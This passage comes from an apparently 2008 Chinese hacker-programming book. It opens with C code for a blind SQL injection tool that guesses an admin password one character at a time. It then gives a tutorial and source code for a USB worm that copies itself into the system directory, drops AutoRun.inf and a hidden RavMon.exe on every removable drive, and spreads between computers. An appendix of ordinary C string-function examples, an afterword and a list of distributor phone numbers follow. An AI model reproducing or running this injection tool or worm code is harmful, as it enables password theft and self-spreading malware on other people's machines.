        // 判断每一位密码的 ASCII 码值范围的 SQL 注入语句
        wsprintf(data,
            "id=1%sand%s1=(Select%scount(*)%sfrom%s[admin]%swhere%s"
            "asc(mid(cstr(password),%d,1))%sbetween%s48%sand%s57%sand%sid=%d)",
            k, k, k, k, k, k, k, i + 1, k, k, k, k, k, id);

        HttpPostPacket(packet, url, host, data);
        if (SendData(packet))
        {
            asc = 48;
            while (1)
            {
                // 猜解密码的 SQL 语句
                wsprintf(data,
                    "id=1%sand%s1=(Select%scount(*)%sfrom%s"
                    "[admin]%swhere%sasc(mid(cstr(password),%d,1))=%d%sand%sid=%d)",
                    k, k, k, k, k, k, k, i + 1, asc, k, k, id);

                HttpPostPacket(packet, url, host, data);
                if (SendData(packet))
                {
                    out[0] = asc;
                    printf("%s", out);
                    break;
                }
                asc = asc + 1;
            }
        }
        else
        {
            asc = 97;
            while (1)
            {
                wsprintf(data,
                    "id=1%sand%s1=(Select%scount(*)%sfrom%s"
                    "[admin]%swhere%sasc(mid(cstr(password),%d,1))=%d%sand%sid=%d)",
                    k, k, k, k, k, k, k, i + 1, asc, k, k, id);

                HttpPostPacket(packet, url, host, data);
                if (SendData(packet))
                {
                    out[0] = asc;
                    printf("%s", out);
                    break;
                }
                asc = asc + 1;
            }
        }
    }
}
```

```cpp
while(1)
{
    // 猜解密码的sql语句
    wsprintf(data, "id=1%sand%s1=(Select%scount(*)%sfrom%s"
                  "[admin]%swhere%sasc(mid(cstr(password),%d,1))=%d%sand%d%sid=%d)",
                  k,k,k,k,k,k,k,i+1,asc,k,k,id);

    HttpPostPacket(packet, url, host, data);
    if(SendData(packet))
    {
        out[i]=asc;
        printf("%s", out);
        break;
    }
    asc=asc+1;
}

printf("\n猜解完毕\n");
closesocket(sClient);
WSACleanup();
getchar();
return 0;
```

程序运行效果如图 7 所示。


图 7

## 8.3 编写U盘感染程序

- 前置知识：C/C++基础、文件操作编程、资源法
- 难度：中
- 编译环境：VC++6.0
- 测试环境：Windows XP

在过去的2007年里，随着移动存储设备的普及，一个新的技术似乎一下子就流行了起来，很多木马都用上了这个技术，它就是U盘感染。显然现在它已经成为木马传播的主要途径了。

那么到底什么是U盘感染呢？打个比方吧，假如你有一个U盘（当然并不一定非要是U盘，只要是移动存储设备即可），为了拷贝数据而接到了一个存在U盘感染功能木马的电脑上，那么这个木马就会复制自身到你的U盘里。当你把U盘插到另一台电脑时，它就从U盘复制自身到那台电脑的硬盘上并运行了。

看了上面这个过程你可能会有这样的疑问，为什么把U盘插到另一台电脑时，它会把自身复制到硬盘呢？没有运行的程序怎么完成自身的复制呢？其实把U盘插到另一台电脑，当你双击打开U盘或在它的盘符上按鼠标右键点击“打开”后，里面的木马程序就开始运行了。

那为什么打开一个磁盘的时候，里面的木马程序会运行呢？这是因为在磁盘下有一个 AutoRun.inf 文件。

> **编程小贴士：INF 文件的作用**
>
> INF 是 Device INFormation File 的英文缩写，是 Microsoft 公司为硬件设备制造商发布其驱动程序提出的一种文件格式。INF 文件中包含硬件设备的信息或脚本以控制硬件操作。在 INF 文件中指明了硬件驱动该如何安装到系统中，源文件在哪里，安装到哪一个文件夹中，怎样在注册表中加入自身相关信息等等。
>
> 安装监视器、调制解调器和打印机等设备所需的驱动程序，都是通过 INF 文件，正是 INF 的功劳才使得 Windows 可以找到这些硬件设备的驱动并正确安装。

接下来我们就来看一下被感染的U盘中的 inf 文件的内容，信息如下：

```ini
[AutoRun]
open=RavMon.exe
shell\Open=打开(&O)
shell\Open\Command=RavMon.exe
shell\explore=资源管理器(&X)
shell\explore\Command="RavMon.exe -e"
```

上面内容中的 RavMon.exe 就是木马程序的文件名，假如在U盘根目录下存在 RavMon.exe 文件，那么当双击打开U盘或者在U盘盘符上按鼠标右键选择“打开”时，RavMon.exe 就会运行。这也就是U盘感染后能传播给其他电脑的原理。

知道了U盘感染应该归功于 AutoRun.inf 文件之后，我们可以想到U盘感染程序应该具体如何实现呢？具体过程如图 8 所示。


首先我们来看第一步，判断U盘是否插入。这里需要用到 GetDriveType 这个 API 函数，此函数可以获得驱动器类型列表。函数原型如下：

```c
UINT GetDriveType(LPCTSTR lpRootPathName);
```

此函数只有一个参数，它指向了驱动器盘符名称的字符串。

函数返回无符号整数，表示驱动器的类型，有以下七种（页面中可见部分）：

- DRIVE_UNKNOWN（=0）：驱动器类型不明
- DRIVE_NO_ROOT_DIR（=1）：无根目录
- `DRIVE_REMOVABLE`（=2）：可移动存储器
- `DRIVE_FIXED`（=3）：固定磁盘，盘片不可以从驱动器中移出
- `DRIVE_REMOTE`（=4）：远端（网络）驱动器
- `DRIVE_CDROM`（=5）：CD-ROM 驱动器
- `DRIVE_RAMDISK`（=6）：内存

从上面这些返回值中可以了解到，当返回 `DRIVE_REMOVABLE` 的时候，那么所查询的驱动器类型为可移动存储设备。我们要查看有无U盘插入可以用如下代码：

```c
UINT revtype;
char name[256]="H:\\";
// 遍历所有盘符
for (BYTE i=0x42; i<0x5B; i=i+0x01)
{
    name[0]=i;
    // 得到盘符类型
    revtype=GetDriveType(name);
    // 判断是否是可移动存储设备
    if (revtype==DRIVE_REMOVABLE)
    {
        // 是可移动存储设备
    }
    Sleep(60000);
}
```

在上面的代码中，`0x42` 是字符 “B”，而 `0x5B` 是字符 “Z” 的后一个字符，这样就可以设置遍历从 B 到 Z 的所有驱动器。

完成了第一步之后，就该判断运行的程序自身文件是否在U盘目录下。假如在U盘目录下则说明用户双击了U盘盘符或在盘符上按鼠标右键并选择“打开”U盘了，此时由于文件还没从U盘复制到磁盘系统目录，要完成这一操作，我们需要将木马程序复制到系统目录。为了不引起用户的怀疑，需要先打开U盘目录，复制完成后再让自身程序退出，这样系统中就只有系统目录下的U盘感染程序在运行了。

在系统目录下运行的U盘感染程序，当有U盘插入时，就进一步判断自身程序是否在U盘目录下。如果判断不是在U盘目录下，就试图把U盘下的 `AutoRun.inf` 删除（假如存在的话），然后复制自身文件到U盘下，并且释放 `AutoRun.inf` 到U盘下（`AutoRun.inf` 文件是以资源的形式包含在木马程序中的）。

为了使这两个文件不被用户发现，最后还需要设置这两个文件的属性为系统、隐藏，这样就算是把图 9 中的勾去掉，文件也是看不到的。


上面这一过程实现了木马的自动传播，从一台电脑传向多台电脑，然后再传向更多的电脑。

在编程过程中给我们留下了两个问题没有解决，第一是怎么设置文件属性，第二是如何打开U盘。首先来看设置U盘属性，微软已经为我们提供了API函数，可以通过调用 `SetFileAttributes` 函数进行设置，此函数原型如下：

```c
BOOL SetFileAttributes(
    LPCTSTR lpFileName,
    DWORD   dwFileAttributes
);
```

`lpFileName` 参数指向了要设置文件属性的文件名（全路径）。

`dwFileAttributes` 参数指定了要设置成的文件属性类型。

如果函数调用成功，则返回非零，调用失败返回零。

那么第二个问题要怎么解决呢？我们知道，在“开始”→“运行”里输入“explorer c:”，回车之后C盘目录就打开了，所以这个问题也不难解决，只需要在程序中调用“explorer U盘盘符”即可。

下面来看看关于U盘感染的相关代码吧（源码在光盘“第八章\Uinfect”下），这里我把U盘感染的代码封装成了一个函数，具体代码如下：

```c
BOOL InfectU()
{
    while(true)
    {
        UINT revType;
        char name[256]="H:\\";
        char szName[256]={0};
        char toPath[256]={0};
        char infPath[256]={0};
        char openU[80]={0};

        // 遍历所有盘符
        for(BYTE i=0x42; i<0x5B; i=i+0x01)
        {
            name[0]=i;

            // 得到盘符类型
            revType=GetDriveType(name);

            // 判断是否是可移动存储设备
            if (revType==DRIVE_REMOVABLE)
            {
                // 得到自身文件路径
                GetModuleFileName(NULL, szName, 256);

                // 比较是否和U盘的盘符相同
                if(strncmp(name, szName, 1)==0)
                {
                    // 得到系统目录
                    GetSystemDirectory(toPath, 256);
                    strcat(toPath, "\\Uinfect.exe");

                    // 把自身文件复制到系统目录
                    if(CopyFile(szName, toPath, TRUE))
                    {
                        // 运行程序
                        ...
                    }
                }
            }
        }
    }
}
```

```c
...
WinExec(toPath, 0);
...
strcpy(openU, "explorer ");
strcat(openU, name);
// 打开U盘
WinExec(openU, 1);
return 0;
}
else
{
    strcpy(toPath, name);
    strcat(toPath, "\\RavMon.exe");
    strcpy(infPath, name);
    strcat(infPath, "\\AutoRun.inf");
    // 还原U盘上的文件属性
    SetFileAttributes(toPath, FILE_ATTRIBUTE_NORMAL);
    SetFileAttributes(infPath, FILE_ATTRIBUTE_NORMAL);
    // 删除原有文件
    DeleteFile(toPath);
    DeleteFile(infPath);
    // 释放AutoRun.inf到U盘
    ResourceToFile(infPath, MAKEINTRESOURCE(IDR_DAT),
                   MAKEINTRESOURCE(RC_AUTORUN));
    // 拷贝自身文件到U盘
    CopyFile(szName, toPath, FALSE);
    // 把这两个文件设置成系统、隐藏属性
    SetFileAttributes(toPath,
        FILE_ATTRIBUTE_HIDDEN|FILE_ATTRIBUTE_SYSTEM);
    SetFileAttributes(infPath,
        FILE_ATTRIBUTE_HIDDEN|FILE_ATTRIBUTE_SYSTEM);
}
...
// 休眠60秒，每60秒检测一次
Sleep(60000);
```

这个函数只要在要实现U盘感染的程序里进行调用就可以了。运行U盘感染程序之后，假如把图 10 中的勾去掉，就可以看到隐藏的文件了。程序运行效果如图 11 所示。


图10

图11

## 附录

### 常用的字符串处理函数

在SDK编程中字符串处理常常是一件非常麻烦的事情，所以在本书的附录部分为大家整理了一些常用的字符串处理函数。

**原型：** `extern void *memccpy(void *dest, void *src, unsigned char ch, unsigned int count);`

**用法：** `#include <string.h>`

**功能：** 由 `src` 所指内存区域复制不多于 `count` 个字节到 `dest` 所指内存区域，如果遇到字符 `ch` 则停止复制。

**说明：** 返回指向字符 `ch` 后的第一个字符的指针；如果 `src` 前 `n` 个字节中不存在 `ch` 则返回 `NULL`。

**举例：**

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Golden Global View";
    char d[20], *p;
    p=memccpy(d, s, 'x', strlen(s));
    if(p)
    {
        *p='\0';
        printf("Char found : %s\n", d);
    }
    else
        printf("Char not found.\n");
    getchar();
    return 0;
}
```

**原型：** `extern void *memcpy(void *dest, void *src, unsigned int count);`

**用法：** `#include <string.h>`

**功能：** 由 `src` 所指内存区域复制 `count` 个字节到 `dest` 所指内存区域。

**说明：** `src` 和 `dest` 所指内存区域不能重叠，函数返回指向 `dest` 的指针。

**举例：**

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Golden Global View";
    char d[20];
    memcpy(d, s, strlen(s));
    d[strlen(s)]='\0';
    printf("%s", d);
    getchar();
    return 0;
}
```

**原型：** `extern void *memchr(void *buf, char ch, unsigned count);`

**用法：** `#include <string.h>`

**功能：** 从 `buf` 所指内存区域的前 `count` 个字节查找字符 `ch`。

**说明：** 当第一次遇到字符 `ch` 时停止查找，成功则返回指向字符 `ch` 的指针，否则返回 `NULL`。

**举例：**

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Hello Programmers!";
    char *p;
    p=memchr(s, 'P', strlen(s));
    if(p)
        printf("%s", p);
    else
        printf("Not Found!");
    getchar();
    return 0;
}
```

**原型：** `extern int memicmp(void *buf1, void *buf2, unsigned int count);`

**用法：** `#include <string.h>`

**功能：** 比较内存区域 `buf1` 和 `buf2` 的前 `count` 个字节，但不区分字母大小写。

**说明：** `memicmp` 与 `memcmp` 的唯一区别是 `memicmp` 不区分大小写字母。

- 当 `buf1 < buf2` 时，返回值 `< 0`
- 当 `buf1 = buf2` 时，返回值 `= 0`
- 当 `buf1 > buf2` 时，返回值 `> 0`

**举例：**

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s1="Hello Programmers!";
    char *s2="Hello programmers!";
    int r;
    r=memicmp(s1, s2, strlen(s1));
    if(!r)
        printf("s1 and s2 are identical");
    else
    {
        if(r<0)
            printf("s1 less than s2");
        else
            printf("s1 greater than s2");
    }
    getchar();
    return 0;
}
```

#### memset

**原型：** `extern void *memset(void *buffer, int c, int count);`

**用法：** `#include <string.h>`

**功能：** 把 `buffer` 所指内存区域的前 `count` 个字节设置成字符 `c`。

**说明：** 返回指向 `buffer` 的指针。

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Golden Global View";
    memset(s,'G',6);
    printf("%s",s);
    getchar();
    return 0;
}
```

#### strcpy

**原型：** `extern char *strcpy(char *dest, char *src);`

**用法：** `#include <string.h>`

**功能：** 把 `src` 所指由 `NULL` 结束的字符串复制到 `dest` 所指的数组中。

**说明：** `src` 和 `dest` 所指内存区域不可以重叠，且 `dest` 必须有足够空间容纳 `src` 的字符串。返回指向 `dest` 的指针。

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Golden Global View";
    char d[20];
    strcpy(d,s);
    printf("%s",d);
    getchar();
    return 0;
}
```

#### strcat

**原型：** `extern char *strcat(char *dest, char *src);`

**用法：** `#include <string.h>`

**功能：** 把 `src` 所指字符串添加到 `dest` 结尾处（覆盖 `dest` 结尾处的 `\0`）并添加 `\0`。

**说明：** `src` 和 `dest` 所指内存区域不可以重叠，且 `dest` 必须有足够空间容纳 `src` 的字符串。返回指向 `dest` 的指针。

```c
#include <stdio.h>
#include <string.h>
main()
{
    char d[20]="Golden Global";
    char *s=" View";
    strcat(d,s);
    printf("%s",d);
    getchar();
    return 0;
}
```

#### strchr

**原型：** `extern char *strchr(char *s, char c);`

**用法：** `#include <string.h>`

**功能：** 查找字符串 `s` 中首次出现字符 `c` 的位置。

**说明：** 返回首次出现 `c` 的位置的指针；如果 `s` 中不存在 `c` 则返回 `NULL`。

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Golden Global View";
    char *p;
    p=strchr(s,'V');
    if(p)
        printf("%s",p);
    else
        printf("Not Found!");
    getchar();
    return 0;
}
```

#### strcmp

**原型：** `extern int strcmp(char *s1, char *s2);`

**用法：** `#include <string.h>`

**功能：** 比较字符串 `s1` 和 `s2`。

**说明：**
- 当 `s1 < s2` 时，返回值 `< 0`
- 当 `s1 == s2` 时，返回值 `= 0`
- 当 `s1 > s2` 时，返回值 `> 0`

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s1="Hello Programmers!";
    char *s2="Hello programmers!";
    int r;
    r=strcmp(s1,s2);
    if(!r)
        printf("s1 and s2 are identical");
    else
    {
        if(r<0)
            printf("s1 less than s2");
        else
            printf("s1 greater than s2");
    }
    getchar();
    return 0;
}
```

#### stricmp

**原型：** `extern int stricmp(char *s1, char *s2);`

**用法：** `#include <string.h>`

**功能：** 比较字符串 `s1` 和 `s2`，但不区分字母大小写。

**说明：** `stricmp` 是对 `strcmp` 的宏定义，实际未提供此函数。
- 当 `s1 < s2` 时，返回值 `< 0`
- 当 `s1 == s2` 时，返回值 `= 0`
- 当 `s1 > s2` 时，返回值 `> 0`

### 举例

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s1="Hello, Programmers!";
    char *s2="Hello, programmers!";
    int r;
    r=strcmp(s1,s2);
    if(!r)
        printf("s1 and s2 are identical");
    else
    {
        if(r<0)
            printf("s1 less than s2");
        else
            printf("s1 greater than s2");
    }
    getchar();
    return 0;
}
```

#### strcspn

**原型：** `extern int strcspn(char *s1, char *s2);`

**用法：** `#include <string.h>`

**功能：** 在字符串 `s1` 中搜寻 `s2` 中所出现的字符。

**说明：** 返回第一个出现的字符在 `s1` 中的下标值，亦即在 `s1` 中出现而 `s2` 中没有出现的字符的长度。

### 举例

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Golden Global View";
    char *r="new";
    int n;
    n=strcspn(s,r);
    printf("The first char both in s1 and s2 is %c", s[n]);
    getchar();
    return 0;
}
```

#### strlen

**原型：** `extern int strlen(char *s);`

**用法：** `#include <string.h>`

**功能：** 计算字符串 `s` 的长度。

**说明：** 返回 `s` 的长度，不包括结束符 `NULL`。

### 举例

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s="Golden Global View";
    printf("%s has %d chars", s, strlen(s));
    getchar();
    return 0;
}
```

#### strncat

**原型：** `extern char *strncat(char *dest, char *src, int n);`

**用法：** `#include <string.h>`

**功能：** 把 `src` 所指字符串的前 `n` 个字符添加到 `dest` 结尾处（覆盖 `dest` 结尾处的 `'\0'`）并添加 `'\0'`。

**说明：** `src` 和 `dest` 所指内存区域不可以重叠，且 `dest` 必须有足够的空间来容纳 `src` 的字符串。返回指向 `dest` 的指针。

### 举例

```c
#include <stdio.h>
#include <string.h>
main()
{
    char d[20]="Golden Global";
    char *s=" View WinIDE Library";
    strncat(d, s, 5);
    printf("%s", d);
    getchar();
    return 0;
}
```

#### strncmp

**原型：** `extern int strncmp(char *s1, char *s2, int n);`

**用法：** `#include <string.h>`

**功能：** 比较字符串 `s1` 和 `s2` 的前 `n` 个字符。

**说明：**
- 当 `s1 < s2` 时，返回值 `< 0`
- 当 `s1 == s2` 时，返回值 `= 0`
- 当 `s1 > s2` 时，返回值 `> 0`

### 举例

```c
#include <stdio.h>
#include <string.h>
main()
{
    char *s1="Hello, Programmers!";
    char *s2="Hello, programmers!";
    int r;
    r=strncmp(s1, s2, 6);
    if(!r)
        printf("s1 and s2 are identical");
    else
    {
        if(r<0)
            printf("s1 less than s2");
        else
            printf("s1 greater than s2");
    }

    getchar();
    r=strncmp(s1, s2, 10);
    if(!r)
        printf("s1 and s2 are identical");
    else
    {
        if(r<0)
            printf("s1 less than s2");
        else
            printf("s1 greater than s2");
    }
    getchar();
    return 0;
}
```

#### strncpy

**原型：** `extern char *strncpy(char *dest, char *src, int n);`

**用法：** `#include <string.h>`

**功能：** 把 `src` 所指由 `NULL` 结束的字符串的前 `n` 个字节复制到 `dest` 所指的数组中。

**说明：** 如果 `src` 的前 `n` 个字节不含 `NULL` 字符，则结果不会以 `NULL` 字符结束。如果 `src` 的长度小于 `n` 个字节，则以 `NULL` 填充 `dest` 直到复制完 `n` 个字节。`src` 和 `dest` 所指内存区域不可以重叠，且 `dest` 必须有足够的空间来容纳 `src` 的字符串。返回指向 `dest` 的指针。

```c
#include <stdio.h>
#include <string.h>

main()
{
    char *s="Golden Global View";
    char *d="Hello GGV Programmers";
    char *p=strdup(s);

    strncpy(d, s, strlen(s));
    printf("%s\n", d);

    strncpy(p, s, strlen(d));
    printf("%s", p);

    getchar();
    return 0;
}
```

#### strset

**原型：** `extern char *strset(char *s, char c);`

**用法：** `#include <string.h>`

**功能：** 把字符串 `s` 中的所有字符都设置成字符 `c`。

**说明：** 返回指向 `s` 的指针。

```c
#include <stdio.h>
#include <string.h>

main()
{
    char *s="Golden Global View";
    strset(s, 'G');
    printf("%s", s);
    getchar();
    return 0;
}
```

#### strtok

**原型：** `extern char *strtok(char *s, char *delim);`

**用法：** `#include <string.h>`

**功能：** 分解字符串为一组标记串。`s` 为要分解的字符串，`delim` 为分隔符字符串。

**说明：** 首次调用时，`s` 必须指向要分解的字符串，随后调用要把 `s` 设成 `NULL`。`strtok` 在 `s` 中查找包含在 `delim` 中的字符，并用 `NULL('\0')` 来替换，直到找完整个字符串。返回指向下一个标记串，当没有标记串时则返回空字符 `NULL`。

```c
#include <string.h>
#include <stdio.h>

main()
{
    char *s="Golden Global View";
    char *d=", ";
    char *p;

    p=strtok(s, d);
    while(p)
    {
        printf("%s\n", p);
        p=strtok(NULL, d);
    }

    getchar();
    return 0;
}
```

#### strupr

**原型：** `extern char *strupr(char *s);`

**用法：** `#include <string.h>`

**功能：** 将字符串 `s` 转换为大写形式。

**说明：** 只转换 `s` 中出现的小写字母，不改变其它字符。返回指向 `s` 的指针。

```c
#include <stdio.h>
#include <string.h>

main()
{
    char *s="Copywrite 1999-2000 GGV Technologies";
    printf("%s", strupr(s));
    getchar();
    return 0;
}
```

## 后序

经过几个月的努力，终于把书写完了。写作的过程是艰辛的，书中的每一段代码都要经过细心地调试，有时候为了查找一段小资料就要翻阅几十页资料。但是当正式搁笔的那一瞬间，心情还是不错的：一种如释重负的感觉油然而生。

在此，我要感谢《非安全》编辑部的大力支持和帮助，特别是七豆老大，在写作过程中，给我提了许多宝贵的意见和建议，让本书拥有了许多新鲜的元素，也让我从中学到了很多东西。当然也要感谢圈子里的一些好朋友，他们帮我提意见，查资料，各位辛苦了呀！谢谢你们：rabbitsafe、怜焰、小僧空尽、晴三、烟圈配咖啡（名字不分先后）。

借后序的版面，我还要祝即将要参加高考的萱同学，考出好成绩，考上理想的大学！

其实学习黑客编程是一件痛苦的事情，往往会走很多弯路，也许几个月就能学会的东西，却要花上一年或者更长的时间。我也是这么走过来的，对其中的艰辛是深有体会，所以本书结合我自身的学习经验，希望能够引导学习黑客编程的广大读者，使大家少走弯路。

最后，我要感谢阅读本书的广大读者，你们的支持和信任是我最大的光荣。

边立忠

2008年2月 于杭州临平

## 菲姿金·黑蜜手册全国代理商电话

- 哈尔滨 0451-88342321
- 海口 0898-66217820
- 鞍山 0412-2218341
- 包头 0472-4138751
- 保定 0312-2038408
- 北京 010-65072885
- 北京 010-65850057
- 沧州 0317-3015380
- 长春 0431-82700526
- 常德·衡阳 0736-7389148
- 常州 0519-88105882
- 成都 028-89935872
- 大同 0352-2021603
- 大连 0411-84600173
- 阜阳 0558-2271183 2233944
- 贵阳 0851-5984895 6819938
- 桂林 0773-2859586
- 武汉 027-85493562
- 杭州 0571-88256366
- 合肥 0551-2611465 7139358
- 衡水 0318-7902322
- 济南 0531-82903395
- 淮南 0554-6314707
- 昆明 0871-4168505
- 兰州 0931-8514919
- 柳州 0772-3111816
- 南昌 0791-8592332
- 南京 025-83328998
- 南宁 0771-2615676
- 南通 0513-85501751
- 宁波 0574-87660206
- 齐齐哈尔 0452-2683430
- 秦皇岛 0335-3691263
- 青岛 0532-83848881
- 深圳 0775-82264081
- 沈阳 024-23842760
- 石家庄 0311-83029157
- 太原 0351-7041968
- 唐山 0315-2259572
- 天津 022-27697711
- 乌鲁木齐 0991-5589830
- 无锡 0510-82722773
- 西安 029-82100804
- 邢台 0319-3090234
- 宜昌 0717-6443827
- 张家口 0313-2068200
- 通化 0435-5086200
- 威海 0631-5202057
- 淄博 0533-2150683
- 上海 021-63760720
- 吉林 0432-6959591 6959592
- 郑州 0371-67647276
- 烟台 0535-6260748
- 徐州 0516-83777678
- 绵阳 0816-2333291
- 苏州 0512-65188163
- 长沙 0731-6562796
- 重庆 023-67051607
- 任丘 0317-2254900
- 银川 0951-6024121 6024322
- 广州 020-34296413
- 邯郸 0310-3090822 7672216
- 周口 0394-6083289
- 福州 13960788097